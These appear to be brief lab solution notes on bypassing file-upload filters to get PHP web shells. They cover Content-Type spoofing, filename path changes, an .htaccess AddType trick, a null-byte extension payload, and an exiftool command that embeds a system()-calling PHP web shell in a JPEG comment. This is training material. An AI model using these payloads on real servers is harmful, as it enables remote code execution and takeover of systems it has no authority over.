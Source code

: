 # Lab 1
Upload a generic php web shell and get the file.

# Lab 2
Content-type headers check data client side.

# Lab 3
Change the upload location by using `filename` field.

# Lab 4
Can change the `.htaccess` file to include any extension to run php
```txt
AddType applcation/x-httpd-php .notphp
```

# Lab 5
You can put a null byte `%00` at the end fo the file name which will drop the extension. ie. 
```
shell.php%00.jpg
```
The application will think its a jpg but then upload the php file.

# Lab 6
Magic bytes with jpg files.
```bash
exiftool -Comment="<?php echo 'START' . system($_GET['command']); ?>"
```
